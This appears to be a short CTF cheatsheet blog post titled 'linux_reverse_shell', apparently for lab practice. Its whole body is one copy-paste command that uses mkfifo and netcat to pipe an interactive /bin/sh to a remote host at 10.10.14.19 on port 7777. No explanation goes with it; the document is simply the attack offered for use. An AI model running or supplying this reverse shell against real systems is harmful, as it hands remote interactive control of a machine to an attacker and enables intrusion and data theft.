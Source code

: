 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
